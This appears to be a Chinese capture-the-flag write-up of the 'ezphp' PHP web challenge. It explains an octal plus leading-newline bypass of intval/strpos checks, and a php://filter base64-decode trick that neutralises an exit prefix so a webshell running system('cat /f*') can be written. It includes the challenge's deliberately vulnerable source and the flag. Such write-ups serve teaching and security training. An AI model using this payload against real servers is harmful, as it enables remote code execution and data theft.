



# ezphp — 值与位置的错位，写入通道与过滤器的错位

> **题目类型**：Web — PHP 进制解析绕过 + 流包装器写入绕过
>
> **题目地址**：ctfplus 平台实例（已关闭）
>
> **Flag**：`SYC{Y0u_have_alr3ady_g0tten_started_w1th_PHP}`

---

## 题目概述

两道关，一关传参数，一关写文件。

**第一关（`index.php`）**：一个 `num` 参数，四道检查，全过才给你 `$_SESSION['ezphp_level1']` 并跳到 `death.php`。

**第二关（`death.php`）**：要有第一关的 session，然后接收 `filename` 和 `content`，往文件里写：

```php
$written = @file_put_contents(
    $filename,
    "<?php exit;?>" . $content
);
```

**两关的共同点：都在利用“同一段数据被两个东西读出两种含义”。**

---

## 解题过程

### Step 1：第一关，先看四道检查在拦什么

首先进行代码审计：

| 检查 | 拦的是 | 你要满足 |
|---|---|---|
| `!is_string($num)` | 数组 | 传字符串 |
| `$num == 411413` | 直接输入答案 | 不能弱等于 411413 |
| `preg_match("/[a-z\.]/i")` | **所有字母** + 点 | 不能有 `e`、`x`、`b` |
| `!strpos($num,"0")` | `0` 在**第 0 位** | `0` 必须在后面 |
| `intval($num,0) === 411413` | —— | 解析后必须等于 411413 |

### Step 2：确定只剩八进制

`intval($num, 0)` 第二个参数为 0，那么就看 `num` 的开头：

```text
0x 开头  →  16 进制     ✗ 字母 x 被 [a-z] 拦了
0b 开头  →  2 进制      ✗ 字母 b 被拦了
0 开头   →  8 进制      ✓ 纯数字，只剩这条
其他     →  10 进制     ✗ 十进制真值会等于 411413，被第一道 `==` 拦
```

**所以这里只能用 8 进制。**

### Step 3：但 `0` 不能是第一个 —— 用换行符

八进制必须以 `0` 开头，可 `strpos` 那道又不许 `0` 在第 0 位。

**关键在于：`intval` 会跳过前导空白，而 `strpos` 不会跳过任何东西 —— 它只是找下标。**

```text
strpos("01443425","0")  = 0   → !0 = true  → 死
strpos("\n01443425","0") = 1  → !1 = false → 活
intval("\n01443425", 0)  = 411413          → 值对
```

**所以选择用 `%0A`（换行符）当第一个就可以了。**

### Step 4：算数字

**别手算，用 PHP 算：**



```powershell
php -r "echo base_convert('411413', 10, 8);"
```

得到 `1443425`，前面补 `0` 就是 `01443425`。

```text
payload：?num=%0A01443425
```

**⚠️ 数字必须完整。** 少一位（比如写成 `0144325`）`intval` 会得到 `51413`，差得非常远。

### Step 5：第二关，`<?php exit;?>` 是“前缀死刑”

进来之后源码就很明晰了：

```php
$written = @file_put_contents(
    $filename,
    "<?php exit;?>" . $content
);
```

**写出来的文件是这样的：**

```php
<?php exit;?><?php system('cat /f*');?>
```

**`exit;` 会在你的代码之前执行，整个请求立刻结束 —— 后面那段永远到不了。**

**它不删你的代码，只是让你的代码排不上队。**

### Step 6：要改的是 `filename`，不是 `content`

**`file_put_contents` 的第一个参数是**文件名**，而 PHP 的文件名支持流包装器。**所以我能控制的不只是“写到哪”，还有“写入途中经过什么处理”：**

```text
php://filter/write=<滤镜>/resource=<真实路径>
```

**这就是这题的突破口 —— 问题不在 `content` 装不进去，而在**写入通道可以被编程**。**

### Step 7：`convert.base64-decode` 把前缀变成乱码

**用 `convert.base64-decode`，数据在落盘前会先做一次 base64 解码。而 base64 解码器的规则是：**

```text
① 只认 [A-Za-z0-9+/=]
② 其他字符（< ? 空格 ; >）直接丢掉
③ 剩下的每 4 个字符 → 3 字节
```

**`<?php exit;?>` 里能留下的只有 `phpexit` —— 7 个字母：**

```text
[<] 丢弃   [?] 丢弃   [p] 留下   [h] 留下   [p] 留下
[ ] 丢弃   [e] 留下   [x] 留下   [i] 留下   [t] 留下
[;] 丢弃   [?] 丢弃   [>] 丢弃
```

**留下的 7 个字母会被当成数据解码，变成 6 个乱码字节。**

**最终文件变成：**

```text
[6 字节乱码] + [我们自己的 PHP 代码]
```

**乱码里没有 `<`，所以 PHP 不会在那里进入代码模式，只是把它当普通字节输出（页面顶部那几个怪字符）；后面我们自己的 `<?php` 才是第一个被识别的开标签。**

### Step 8：必须补字符对齐

**base64 解码要求有效字符数是 4 的倍数。**

```text
7（phpexit）+ 补充字符数 + base64 长度  必须 % 4 == 0
7 + 1 + 32 = 40  ✅
7 + 5 + 32 = 44  ✅   加 5 个凑成 12 也行
```

**不足 4 的倍数，滤镜会报 `invalid byte sequence`，写入直接失败。**

**所以要在 base64 前面补 1 个字符（或 5 个），跟前面的 7 个凑成 8（或 12）。**

### Step 9：把 `content=` 也编码进去 —— 我踩的第一个坑

**这里我最开始不知道在干嘛，把 `content=` 也放进去编码了，查询时一直报错，太迷了。**

**`content` 是**字段名**，必须原样出现在 body 里，不能被编码：**

```text
content=<1 个对齐字符><只含 <?php ... ?> 的 base64>
```

**如果把整段 `content=<?php ...?>` 都编码了，PHP 解析出来的键就是那一长串 base64，`$_POST['content']` 根本不存在 —— 后端第一句 `isset` 就 `exit` 了，页面一片空白。**

### Step 10：尾部 `=` 和 `+` 的坑

**当时遇到一个问题：用工具编码后，结尾那个字符在表单里会被改掉，导致访问文件失败。**

**原因是 base64 里有两个特殊字符：**

| 字符 | 是什么 | 表单里会怎样 |
|---|---|---|
| `+` | 字母表第 62 号，**真实数据** | 被当成**空格**，整个末尾错位 |
| `=` | **填充符**，不是数据 | 被某些工具当分隔符处理，删掉后末组不完整 |

**`?>` 是两个字节，编成 base64 就是 `Pz4=` —— 结尾一定带 `=`。**

**所以这里我就删掉了 `?>`，反正单个 `;` 也能确定语句的结束。**

**去掉 `?>` 之后，base64 结尾是 `Jyk7`（纯字母数字），整个值里**没有任何会被表单规则特殊对待的字符**。**

**顺带说：PHP 文件本来就不需要 `?>` 结尾，官方也建议省略 —— 这一刀砍得对。**

### Step 11：拼起来拿 flag



```text
GET   ?filename=php://filter/write=convert.base64-decode/resource=shell.php
POST  content=A<去掉 ?> 的 base64>
```

**访问 `shell.php`：**



```text
SYC{Y0u_have_alr3ady_g0tten_started_w1th_PHP}
```

---

## 解题思路总结

```text
第一关：
  四道检查互斥
    → 字母全禁 → 只剩八进制（0x / 0b 都要字母）
      → 但 strpos 不许 0 在第 0 位
        → 用换行符占位：intval 跳过它，strpos 数它
          → 算 411413 的八进制，拼起来，进 session

第二关：
  file_put_contents 的 filename 可控 → 能挂流包装器
    → 前缀 <?php exit;?> 会先执行 → 必须毁掉它
      → convert.base64-decode：非字母表字符全丢，字母被解码成乱码
        → 7 个字母 + 补 1 个对齐 → 前缀变成 6 字节乱码
          → 文件 = 乱码 + 我们的 shell → 执行 → flag
```

### 漏洞原理

**① 同一个字符串，两个函数读出两种含义**

```text
intval($num, 0)   看"值"：跳过前导空白，按第一个字符定进制
strpos($num, "0") 看"位置"：不解析，只找下标
```

**`"\n01443425"` 对前者是 411413，对后者是"0 出现在第 1 位"。两个结论都成立，检查就被夹在中间。**

**② 写入通道可编程**

**`file_put_contents` 的文件名支持 `php://filter`，等于把"写文件"变成了"写文件前先过一道处理"。前缀防护在这种通道面前形同虚设。**

**③ base64 解码器只认字母表**

**它不认识 PHP，不知道 `<?php` 意味着代码。它只会：字母表里的解码，字母表外的丢掉。所以 `<?php exit;?>` 不会被"删除"，而是被"翻译成 6 个字节的乱码"。**

### 关键知识点

| 知识点 | 说明 |
|---|---|
| `intval($s, 0)` | base 0 = 按前缀自动判进制：`0x` 十六 / `0b` 二 / `0` 八 / 其余十 |
| 前导空白 | `intval` 跳过（`isspace`：空格 `\t` `\n` `\r`），`strpos` 不跳过 |
| `strpos` 返回 0 | `0` 是 falsy，所以 `!strpos(...)` 会把"出现在首位"和"没找到"判成同一种情况 |
| `==` vs `intval` | 弱比较走自动转换（十进制），`intval(,0)` 走显式进制解析 —— 两者可以给出不同的值 |
| 流包装器 | `php://filter/write=<滤镜>/resource=<路径>`，写入前可编程处理 |
| base64 解码规则 | 只认 `[A-Za-z0-9+/=]`，其余丢弃；每 4 字符 → 3 字节 |
| base64 填充 | `=` 表示最后一组没装满；删掉后严格解码器会丢掉末组 |
| 表单编码 | `+` 变空格、`=` 是分隔符 —— base64 结尾这两个字符最容易被改坏 |
| `?>` 可省 | PHP 文件末尾不需要闭合标签，官方建议省略 |

---

??? note "第一关源码"

    ```php
    <?php
    ob_start();
    session_start();
    highlight_file(__FILE__);

    include("flag.php");

    if (!isset($_GET['num'])) {
        exit;
    }

    $num = $_GET['num'];

    if (!is_string($num)) {
        die("xiexie 不喜欢数组。");
    }

    if ($num == 411413) {
        die("这都无法做到吗!");
    }

    if (preg_match("/[a-z\.]/i", $num)) {
        die("xiexie感觉你应该没办法了!!");
    }

    if (!strpos($num, "0")) {
        die("玉米说以防万一再试试这个!!!");
    }

    if (intval($num, 0) === 411413) {
        $_SESSION['ezphp_level1'] = true;
        header("Location: death.php");
        exit;
    }

    echo "<p>好像还差一点。</p>";
    ?>
    ```

??? note "第二关源码"

    ```php
    <?php
    session_start();

    if (empty($_SESSION['ezphp_level1'])) {
        http_response_code(404);
        exit("not found");
    }

    highlight_file(__FILE__);

    if (!isset($_GET['filename'], $_POST['content'])) {
        exit;
    }

    $filename = $_GET['filename'];
    $content = $_POST['content'];

    if (!is_string($filename) || !is_string($content)) {
        exit("说了xiexie不喜欢数组。");
    }

    // hint：普通相对路径会写入站点根目录 /var/www/html/。
    $written = @file_put_contents(
        $filename,
        "<?php exit;?>" . $content
    );

    if ($written === false) {
        exit("写入失败。");
    }

    echo "xiexie吞了吞口水，他好像知道自己失败了";
    ?>
    ```
